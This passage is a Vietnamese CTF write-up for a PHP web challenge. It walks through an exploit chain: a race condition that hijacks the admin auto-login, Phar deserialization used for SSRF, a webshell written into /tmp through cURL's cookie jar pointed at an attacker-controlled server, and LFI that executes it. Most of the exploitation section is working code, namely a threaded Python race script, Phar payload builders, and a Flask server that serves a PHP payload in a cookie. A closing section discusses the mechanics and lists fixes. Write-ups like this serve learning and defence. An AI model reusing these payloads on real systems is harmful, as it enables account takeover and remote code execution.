- **Loại lỗi:** Local File Inclusion, dẫn đến RCE khi include file chứa PHP code.

Dashboard cho superadmin truyền path qua `$_POST['filename']`:

```php
if ($_POST['filename']) {
    include "./templates/dashboard.html";
    if (!empty($_SESSION['superadmin'])) {
        $filename = strtolower(trim($_POST['filename']));
        if (strpos($filename, '/tmp') !== 0 || strpos($filename, '../') !== false) {
            echo "<div class='center-text'>Only /tmp paths are allowed.</div>";
        } else if (!file_exists($filename)) {
            echo "<div class='center-text'>File not found.</div>";
        } else {
            include ($filename);
        }
    }
}
```

Filter yêu cầu path bắt đầu bằng `/tmp`, không chứa `../`, và còn ép path về lowercase bằng `strtolower()`. Các filter này chỉ giới hạn vị trí file, không đảm bảo nội dung file an toàn. Nếu attacker đã tạo được một file PHP trong `/tmp` với tên lowercase, ví dụ `/tmp/shell.php`, điều kiện này vẫn cho qua.

Tác động là LFI biến thành RCE: `include()` không chỉ đọc file mà còn thực thi PHP code bên trong file. Khi file `/tmp/shell.php` chứa payload gọi `/readflag`, web server sẽ thực thi payload đó và in flag ra response.

## V. Khai thác

### Bước 1. Race để login thành admin

Ý tưởng là liên tục tạo auto-login record cho username `admin`, đồng thời liên tục gọi GET `vault_key` để bắt đúng khoảnh khắc record đã insert nhưng chưa bị cleanup.

Ta không cần đoán token `$code`, vì `expires_on` nằm trong serialized record và do mình điều khiển. Nếu đặt `expires_on=bingochin`, serialized record của admin sẽ chứa chuỗi `"bingochin"`. Khi GET `?vault_key=bingochin`, câu SQL `LIKE` có thể match record đó.

Script:

```python
import threading
import requests
import sys

URL = "http://IP:PORT/autologin.php"
COOKIES = {"PHPSESSID": "YOUR_USER_SESSION"}
PAYLOAD = "bingochin"

stop_flag = False

def poster():
    global stop_flag
    session = requests.Session()
    data = {
        "action": "create_by_username",
        "username": "admin",
        "expires_on": PAYLOAD,       # <- Chuỗi để GET vault_key match qua LIKE
        "unlimited_use": "on",
    }
    while not stop_flag:
        try:
            session.post(URL, data=data, cookies=COOKIES, timeout=1)
        except Exception:
            pass

def getter():
    global stop_flag
    session = requests.Session()
    while not stop_flag:
        try:
            # <- Không gửi cookie ở request GET
            res = session.get(URL + "?vault_key=" + PAYLOAD,
                              allow_redirects=False,
                              timeout=1)
            if res.status_code == 302:
                print("[+] Race thành công")
                print("[+] Set-Cookie:", res.headers.get("Set-Cookie"))
                stop_flag = True
                sys.exit(0)
        except Exception:
            pass

threads = []
for _ in range(5):
    t = threading.Thread(target=poster)
    threads.append(t)
    t.start()

for _ in range(20):
    t = threading.Thread(target=getter)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

Giải thích payload:

| Phần | Ý nghĩa |
| --- | --- |
| `username=admin` | Ép server tạo auto-login record cho user admin. |
| `expires_on=bingochin` | Chuỗi attacker kiểm soát, được serialize vào record. |
| `GET ?vault_key=bingochin` | Match record admin qua `LIKE`, không cần biết token thật. |
| GET không gửi cookie | Tránh PHP Session Locking làm request bị tuần tự hóa. |

Điểm quan trọng nhất là GET không gửi cookie. Nếu POST và GET cùng mang `PHPSESSID`, PHP sẽ mở cùng một file session và lock bằng `flock()`. Khi đó các request tưởng là song song có thể bị xếp hàng: request trước chạy xong và nhả lock thì request sau mới tiếp tục. Với race này, điều đó làm cửa sổ giữa INSERT và DELETE gần như biến mất.

Flow GET `vault_key` không cần login sẵn, nên bỏ cookie giúp request GET chạy độc lập hơn với request POST ở tầng session, tăng khả năng bắt được record admin trong database.

Kết quả mong đợi là response `302` về `/index.php` kèm `Set-Cookie: PHPSESSID=...`. Dùng session mới này cho các bước sau với role admin.



### Bước 2. Lấy access code của admin

Khi đã có admin session, gửi request tới `/dashboard.php`. Response có header:

```text
X-Archive-Receipt: <base64url_content>
```



Kết quả có dạng:

```text
ARCHIVE-0065D9ADB1A0BAA6
```

Giá trị này là input cần gửi vào `access_code` của `/admin.php`.

### Bước 3. Tạo Phar thứ nhất để gọi `/admin.php` từ localhost

Mục tiêu của bước này là biến admin session thành superadmin. Vì `/admin.php` yêu cầu request đến từ `127.0.0.1`, ta dùng gadget cURL trong `delete.php` để server tự gọi chính nó.

File tạo Phar:

```php
<?php
class PreviewState {
    public $endpoint;
    private $headers;
    private $payload;
    private $sessionNote;

    public function __construct($endpoint, $payload, $sessionNote, $headers) {
        $this->endpoint = $endpoint;
        $this->payload = $payload;
        $this->sessionNote = $sessionNote;
        $this->headers = $headers;
    }
}

class PendingPreview {
    public $state;

    public function __construct($state) {
        $this->state = $state;
    }
}

$state = new PreviewState(
    'http://127.0.0.1/admin.php',
    'access_code=ARCHIVE-0065D9ADB1A0BAA6',
    'PHPSESSID=ADMIN_SESSION',
    []
);

$obj = new PendingPreview($state);

$phar = new Phar('ssrf1.phar');
$phar->startBuffering();
$phar->addFromString('test.png', 'test');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);
$phar->stopBuffering();
rename('ssrf1.phar', 'ssrf1.png');
?>
```

Tạo file:

```bash
php -d phar.readonly=0 ssrf1.php
```

Giải thích payload Phar:

| Phần | Ý nghĩa |
| --- | --- |
| `setStub("<?php __HALT_COMPILER(); ?>")` | Stub hợp lệ của Phar. |
| `setMetadata($obj)` | Đưa object `PendingPreview` vào metadata để PHP unserialize khi đọc qua `phar://`. |
| `addFromString('test.png', 'test')` | Tạo file con tên `test.png`, giúp đường dẫn trigger có extension `.png`. |
| `endpoint=http://127.0.0.1/admin.php` | Server sẽ tự gọi endpoint nội bộ. |
| `payload=access_code=...` | Body POST gửi access code lấy ở bước trước. |
| `sessionNote=PHPSESSID=...` | Gửi kèm admin session để `/admin.php` set superadmin vào đúng session. |

Ở thời điểm này ta mới là admin, chưa phải superadmin. Theo `__wakeup()`, field `headers` sẽ bị discard, nhưng `endpoint`, `payload` và `sessionNote` vẫn đủ để tạo request POST vào `/admin.php`.

Upload `ssrf1.png` qua `/report.php`. Sau khi biết tên file server lưu, trigger bằng `/delete.php`:

| Trường | Giá trị |
| --- | --- |
| `title` | `phar://./uploads/<uploaded_name>.png/test.png` |

Vì `pathinfo()` nhìn phần cuối là `test.png`, extension check cho qua. Sau đó `file_get_contents()` xử lý wrapper `phar://`, parse metadata và kích hoạt gadget.

Nếu thành công, admin session hiện tại sẽ có thêm `$_SESSION['superadmin'] = true`.



### Bước 4. Ghi webshell vào `/tmp` bằng cURL Cookie Jar

Sau khi đã là superadmin, `__wakeup()` không discard `headers` nữa. Lúc này ta có thể dùng field `headers` để set `CURLOPT_COOKIEJAR`.

Chạy server do mình kiểm soát:

```python
from flask import Flask, Response

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    resp = Response("OK")
    resp.set_cookie("shell", "<?=`/readflag`?>")
    return resp

if __name__ == "__main__":
    app.run(port=8000, host="0.0.0.0")
```

Tạo Phar thứ hai:

```php
<?php
class PreviewState {
    public $endpoint;
    private $headers;
    private $payload;
    private $sessionNote;

    public function __construct($endpoint, $payload, $sessionNote, $headers) {
        $this->endpoint = $endpoint;
        $this->payload = $payload;
        $this->sessionNote = $sessionNote;
        $this->headers = $headers;
    }
}

class PendingPreview {
    public $state;

    public function __construct($state) {
        $this->state = $state;
    }
}

$headers = [10082 => '/tmp/shell.php'];

$state = new PreviewState(
    'http://YOUR-VPS-IP/',
    'trigger=1',
    'ignored',
    $headers
);

$obj = new PendingPreview($state);

$phar = new Phar('ssrf2.phar');
$phar->startBuffering();
$phar->addFromString('test.png', 'test');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);
$phar->stopBuffering();
rename('ssrf2.phar', 'ssrf2.png');
?>
```

Giải thích payload:

| Phần | Ý nghĩa |
| --- | --- |
| `10082` | Giá trị của `CURLOPT_COOKIEJAR`. |
| `/tmp/shell.php` | File mà cURL sẽ ghi cookie nhận được từ response. |
| `endpoint=http://YOUR-VPS-IP/` | Địa chỉ server Flask trên máy attacker khi chạy local Docker. |
| `Set-Cookie: shell=<?=\`/readflag\`?>` | Cookie value chứa PHP payload. |

Khi cURL nhận response có `Set-Cookie`, nó ghi file cookie jar theo format gần như sau:

```text
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
YOUR-VPS-IP    FALSE   /   FALSE   0   shell   <?=`/readflag`?>
```

File này có nhiều text bình thường, nhưng nếu được PHP `include`, engine sẽ in phần text đó và thực thi đoạn nằm giữa `<?=` và `?>`.

Payload ```<?=`/readflag`?>``` được chọn vì:

| Chi tiết | Lý do |
| --- | --- |
| `<?= ... ?>` | Short echo tag, khi include sẽ evaluate biểu thức bên trong. |
| Backtick `` `/readflag` `` | Trong PHP, backtick thực thi shell command và trả output. |
| Không có space | Tránh cookie value bị framework/libcurl xử lý lệch. |
| Không có dấu `;` | Tránh cookie parser cắt value tại dấu chấm phẩy. |
| Không cần `$_GET['c']` | Include là chạy luôn `/readflag`, không phụ thuộc query string. |

Upload và trigger `ssrf2.png` tương tự bước 3:

```text
title=phar://./uploads/<uploaded_ssrf2>.png/test.png
```



Sau khi trigger, kiểm tra về mặt logic là `/tmp/shell.php` đã được tạo trong container web.



### Bước 5. Include shell để lấy flag

Gửi POST tới `/dashboard.php` bằng superadmin session:

| Trường | Giá trị | Mục đích |
| --- | --- | --- |
| `filename` | `/tmp/shell.php` | Include file cookie jar vừa tạo. |

`dashboard.php` convert path về lowercase, nhưng `/tmp/shell.php` đã lowercase nên không ảnh hưởng. Khi include file, PHP gặp payload:

```php
<?=`/readflag`?>
```

Kết quả trả về sẽ chứa output của `/readflag`, tức flag thật.



## VI. Thảo luận

### Vì sao chuỗi khai thác phải đi theo thứ tự này?

Mỗi bước mở khóa điều kiện cho bước sau:

1. Race auto-login tạo admin session.
2. Admin session cho phép gadget giữ `payload` và `sessionNote`, đủ để SSRF vào `/admin.php`.
3. Superadmin session cho phép gadget giữ `headers`, từ đó set được `CURLOPT_COOKIEJAR`.
4. File trong `/tmp` chỉ có ý nghĩa khi dashboard cho superadmin include nó.

Nếu đảo bước, chain sẽ bị chặn bởi `__wakeup()` hoặc bởi check superadmin trong `dashboard.php`.

### App có chức năng upload file lên server, tại sao không upload thẳng webshell lên?

Server lưu file người dùng gửi lên với tên bất kì, dù tên file được trả về cho user nhưng tên file luôn bao gồm upper và lowercase. Trong khi `include` file ở `dashboard.php` của superadmin thì lại chỉ include file có filename là lowercase.

```php
function generate_random_name($minLen = 10, $maxLen = 20) {
    $length = random_int($minLen, $maxLen);
    $chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
    $upper = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $name = '';

    for ($i = 0; $i < $length; $i++) {
        $name .= $chars[random_int(0, strlen($chars) - 1)];
    }

    $pos = random_int(0, $length - 1);
    $name[$pos] = $upper[random_int(0, strlen($upper) - 1)];

    return $name;
}
```

```php
if (!empty($_SESSION['superadmin'])) {
    $filename = strtolower(trim($_POST['filename']));   // <- Chỉ lấy lowercase filename
    if (strpos($filename, '/tmp') !== 0 || strpos($filename, '../') !== false) {
        echo "<div class='center-text'>Only /tmp paths are allowed.</div>";
    } else if (!file_exists($filename)) {
        echo "<div class='center-text'>File not found.</div>";
    } else {
        include ($filename);
    }
```

### Lưu ý về PHP Session Locking

Session locking không phải bug, mà là cơ chế bảo vệ dữ liệu session khỏi corruption. Nhưng trong khai thác race, nó có thể làm request bị tuần tự hóa ngoài ý muốn. Với các endpoint không cần session, bỏ cookie là một cách để tránh bị lock cùng file session.

Ở phía phòng thủ, developer có thể gọi `session_write_close()` sớm sau khi đọc/ghi xong session, hoặc dùng session backend khác như Redis/Memcached. Tuy nhiên các backend này cũng cần cấu hình locking cẩn thận.

### Lưu ý về Phar Deserialization

Bản thân việc đọc file upload chưa chắc nguy hiểm. Vấn đề xuất hiện khi input user đi vào các hàm file system với wrapper `phar://`, trong khi source có class phù hợp để tạo gadget chain.

Trong bài này, `PendingPreview::__destruct()` là điểm nối tới `PreviewState::flush()`, còn `flush()` là sink tạo request cURL. Vì vậy metadata Phar không cần chứa PHP code trực tiếp; nó chỉ cần chứa object có property đúng.

### Lưu ý về Cookie Jar

Cookie jar chỉ ghi cookie theo format text, không phải một cơ chế upload PHP chính thống. Điểm khiến nó nguy hiểm là `dashboard.php` dùng `include()` trên file trong `/tmp`. PHP không yêu cầu toàn bộ file là PHP code; chỉ cần đâu đó trong file có `<?php ... ?>` hoặc `<?= ... ?>`, đoạn đó sẽ được evaluate.

### Cách vá

- Kiểm tra quyền trước khi insert/update auto-login record cho user khác.
- Không dùng `LIKE` trên serialized blob để xác thực token; lưu token ở cột riêng và so sánh chính xác bằng `WHERE token = ?`.
- Với luồng cần tính nhất quán cao, dùng transaction hoặc lock ở database.
- Không truyền input user trực tiếp vào `file_get_contents()` hoặc các hàm file system khác.
- Chặn các wrapper nguy hiểm như `phar://`, `php://filter`, `expect://` nếu ứng dụng không cần.
- Không để attacker điều khiển cURL option; chỉ cho cấu hình allowlist rõ ràng.
- Không dùng `include()` với path do user điều khiển. Nếu chỉ cần đọc file, dùng API đọc file và escape output.
- Không dùng `127.0.0.1` làm boundary bảo mật duy nhất cho action nhạy cảm.

## Flag

> Flag: ***KMACTF{The_Ma_Lai_hay_4d0580b3a2053abae6eb5c763b6a72b598b0aa17}***
